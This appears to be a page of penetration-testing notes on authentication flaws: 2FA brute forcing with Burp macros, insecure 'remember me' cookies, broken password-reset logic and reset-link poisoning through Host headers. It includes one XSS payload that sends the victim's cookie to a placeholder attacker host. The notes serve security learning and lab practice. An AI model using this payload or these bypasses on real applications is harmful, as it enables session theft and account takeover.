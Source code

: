 <br>


### 2FA Bypass - Using a brute-force attack Burp Macro:  

* If the application is terminating our valid session cookie after a certain amount of incorrect 2FA code attempts, then we can use a Burp Macro to create a new session after every request that is sent through Burp’s Proxy, Repeater, Intruder, etc.  

* Check out the following lab for an example – “EXPERT Lab: 2FA bypass using a brute-force attack”

<br>

### Brute Force Protection Bypass / Insecure Design - Stay-logged-in Cookie:  

* Use all the application’s functionality that is available.  If the application has a “Remember me” feature after logging in, use it and identify how the application is implementing this feature.  If this feature is insecure, we can exploit it to potentially log into the application as another user or enumerate valid accounts.  

* For example, after clicking on the “Remember me” functionality, the application sets a new cookie on the client.  The cookie is generated by hashing the user’s password with an insecure hashing algorithm with no salt and appending their username to it.  If there aren’t any brute force protections on this Cookie, we can use this vector to brute force the credentials of another user.

    * Use Burp Intruder's "Payload Processing" function to transform the payload into the required format so the Brute Force works correctly.

* Another example, if the application contains an XSS vulnerability, we can inject this payload to steal another user's Cookie and crack the password offline too:

```javascript
<script>document.location='https://ATTACKER-SERVER.COM/'+document.cookie </script>
```

<br>

### Authentication Bypass - Password Reset Broken Logic:  

* Use all of the applications functionality related to authentication such as Forgot password, Reset password, Update password, etc.  Analyze the entire processes and identify any interesting headers/parameters that are potentially being used to identify which user the requests are being initiated for.  Change these values to another account and analyze how the application responds.  

* For example, when using the “Forgot Password” functionality, there is a body parameter called "username".  It may be possible to update the password of any valid user on the application by simply changing the value of this parameter.

<br>

### Authentication Bypass - Password Reset Poisoning via Middleware:  

* When using the “Forgot password” functionality on an application, identify if it is possible to manipulate the domain used in the password reset link.  We can use headers such as (Host, X-Forwarded-Host, or X-Host) to do this.  If this is possible then we may be able to steal another user’s reset token to update their password.  
